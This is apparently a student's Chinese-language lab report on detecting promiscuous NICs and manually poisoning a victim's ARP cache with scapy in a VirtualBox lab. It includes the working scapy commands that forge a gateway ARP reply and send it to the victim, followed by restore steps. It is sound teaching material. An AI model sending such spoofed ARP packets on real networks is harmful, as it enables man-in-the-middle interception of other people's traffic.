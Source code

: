 # 实验四

# 基于 scapy 编写 ARP 投毒劫持工具

## 实验环境

- Oracle Virtual Box

- 攻击者主机

  - 08:00:27:0e:34:8d / eth0
  - 172.16.111.111

- 受害者主机

  - 08:00:27:0e:35:9d / eth0
  - 172.16.111.140

- 网关

  -  08:00:27:39:5a:44 / enp0s9

  - 172.16.111.1

    

## 实验目的

- 熟悉并掌握使用ARP伪造数据包

## 实验步骤

- 打开Oracle Virtual Box
- 创建虚拟机
  - Gateway
  - Attack-Kali
  - Victim-Kali
- 按照要求进行实验一、二
- 编写实验报告

## 实验内容

- 在攻击者主机上安装scrapy

  ```
  #安装python3
  sudo apt update && sudo apt install python3 python3-pip
  ```

- ```
  # ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
  pip3 install scapy[complete]
  ```

### 实验一：检测局域网中的异常终端

- 构建网络拓扑

  ![构建网络拓扑](chap0x04_img/网络拓扑.jpg)

- 查看混杂模式

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![查看混杂模式](chap0x04_img/查看混杂模式.jpg)

- 开启scapy

  ```
  # 在攻击者主机上开启 scapy
  sudo scapy
  ```

- scapy交互终端执行代码

  ```
  # 在 scapy 的交互式终端输入以下代码回车执行
  pkt = promiscping("172.16.111.140")
  ```

  ![关闭混杂模式发送数据包](chap0x04_img/发送数据包1.jpg)

- 开启受害者主机网卡

  ```
  # 手动开启该网卡的「混杂模式」
  sudo ip link set eth0 promisc on
  ```

  ```
  # 此时会发现输出结果里多出来了 PROMISC 
  ip link show eth0
  ```

  ![出现PROMISC](chap0x04_img/出现PROMISC.jpg)

- 攻击者主机查看命令差异

  ```
  # 回到攻击者主机上的 scapy 交互式终端继续执行命令
  # 观察两次命令的输出结果差异
  pkt = promiscping("172.16.111.140")
  ```

  ![前后差异](chap0x04_img/差异.jpg)

- 关闭混杂模式

  ```
  # 在受害者主机上
  # 手动关闭该网卡的「混杂模式」
  sudo ip link set eth0 promisc off
  ```

  

### 实验二：手工单步“毒化”目标主机的 ARP 缓存

（在攻击者scapy交互终端完成）

- 构造ARP请求

  ```
  # 获取当前局域网的网关 MAC 地址
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  ```

- 查看ARP报文

  ```
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```

  ![查看报文](chap0x04_img/查看报文.jpg)

- 发送ARP广播请求

  ```
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  ```

- 网关MAC地址recved = srp(arpbroadcast, timeout=2)

  ```
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  ```

- 伪造ARP响应包

  ```
  # 伪造网关的 ARP 响应包
  # 准备发送给受害者主机 172.16.111.140
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.140", hwdst="08:00:27:0e:34:8d")
  ```

  ![伪造数据包](chap0x04_img/伪造数据包.jpg)

- 发伪造数据包到受害者主机

  ```
  # 发送上述伪造的 ARP 响应数据包到受害者主机
  sendp(arpspoofed)
  ```

- 查看受害者ARP缓存

  ```
  ip neigh
  #网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  ```

  ![受害者ARP缓存](chap0x04_img/受害者ARP缓存.jpg)

- 恢复受害者主机的 ARP 缓存记录

  ```
  #删除网关ARP
  arp -d 172.16.111.1
  
  #删除攻击者主机ARP
  arp -d 172.16.111.111
  ```

  

- 回到攻击者主机上的 scapy 交互式终端继续执行命令

  ```
  #伪装网关给受害者发送 ARP 响应
  restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:39:5a:44", pdst="172.16.111.140", hwdst="08:00:27:0e:35:9d")
  sendp(restorepkt1, count=100, inter=0.2)
  ```

- 在受害者主机刷新网关记录

  ```
  # 在受害者主机上尝试 ping 网关
  ping 172.16.111.1
  
  # 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  ![恢复正常网关记录](chap0x04_img/恢复正常网关记录.jpg)

  

  

  

## 问题&&解决方法

1. 两台虚拟机ip地址一样

   解决方法：[修改netplan 的配置文件使用网卡mac地址来做dhcp唯一标识](https://netplan.io/examples/)

   **敲黑板**：编辑`.yaml`文件时切记切记要缩进！冒号后面的参数要打空格啊！

   ```
   #创建 /etc/netplan/config.yaml
   
   #编辑config.yaml
   #network:
       version: 2
       ethernets:
           enp3s0:
               dhcp4: yes
               dhcp-identifier: mac
               
   #安装netplan
   sudo apt-get update && apt-install netplan.io
   
   #运行配置文件
   sudo netplan apply
   
   #在虚拟机配置修改mac地址（虚拟机需处于关机状态）
   设置 → 网络 → 高级 → mac地址
   
   #ip地址随着mac地址的改变而改变
   
   #重新登录虚拟机查看ip地址
   ip a
   
   #ip地址已经变啦！
   ```

   

2. 受害者主机使用kali系统，因为有些命令xp系统打不出来

3. 当  `apt policy XXX` 正常显示，而`sudo apt-get update && apt-get install XXX` 报错时

   解决方法：将update和install命令分开执行

   

